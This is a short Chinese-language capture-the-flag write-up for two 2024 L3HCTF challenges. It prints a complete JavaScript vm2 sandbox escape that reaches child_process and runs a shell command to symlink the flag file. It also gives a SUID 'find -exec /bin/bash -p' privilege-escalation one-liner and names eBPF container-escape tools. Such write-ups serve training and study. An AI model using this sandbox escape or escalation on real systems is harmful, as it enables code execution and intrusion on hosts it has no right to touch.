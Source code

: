 # 2024-L3HCTF

## escape-web

node.js的vm2逃逸，通过软连接读取flag

```js
async function fn() {
    (function stack() {
		new Error().stack;
		stack();
    })();
}

p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { console.log(err.constructor.constructor('return process')().mainModule.require('child_process').execSync('ln -sf /flag /app/output.txt').toString()); }
            )
        }
    }
};
p.then();
```





## escape-2

首先suid提权：

```bash
find /usr/bin/su -exec /bin/bash -p \; -quit
```

看一下cap有admin，因为有apparmor的限制所以很明显是eBPF（没了解过的话确实就不知道了）。



利用的工具是[TomAPU/bpfcronescape](https://github.com/TomAPU/bpfcronescape) ，我自己之前写的集成利用工具[bfengj/eBPFeXPLOIT: Exploit tool implemented using ebpf.](https://github.com/bfengj/eBPFeXPLOIT) 这题没法用，因为我写的利用部分的代码是hook的syscall，但是题目环境居然没有：

![image-20240209175853204](README.assets/image-20240209175853204.png)

非常的奇怪，这和内核的版本似乎无关，我内核4.x的Linux里面都有syscall，但是环境没有，奇怪的环境问题了。